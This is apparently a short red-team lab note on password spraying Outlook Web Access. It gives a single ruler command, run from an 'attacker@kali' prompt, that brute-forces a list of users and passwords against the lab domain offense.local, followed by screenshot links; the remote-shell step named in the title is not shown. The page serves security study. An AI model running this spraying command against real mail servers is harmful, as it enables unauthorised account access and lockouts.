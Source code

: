 # Password Spraying Outlook Web Access: Remote Shell

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
ruler -k --domain offense.local brute --users users --passwords passwords --verbose
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2018-12-23-15-09-03.png)

![](../.gitbook/assets/peek-2018-12-23-15-07.gif)

![](../.gitbook/assets/screenshot-from-2018-12-23-15-08-18.png)



